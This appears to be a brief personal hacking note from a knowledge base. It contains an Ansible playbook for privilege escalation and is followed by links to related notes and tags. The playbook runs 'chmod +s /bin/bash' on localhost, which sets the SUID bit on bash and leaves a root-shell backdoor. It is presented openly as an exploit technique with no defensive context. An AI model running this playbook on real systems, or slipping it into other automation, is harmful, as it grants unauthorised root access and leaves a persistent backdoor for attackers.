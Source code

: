 # ansible exploiting playbook priv esc backdoor
```yaml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

# Related
- [20221003150338](/zet/20221003150338/README.md) ansible exploiting playbook
- ~/kb/hacking/misc/ansible.md

Tags:
    #assorted #hacking #ansible
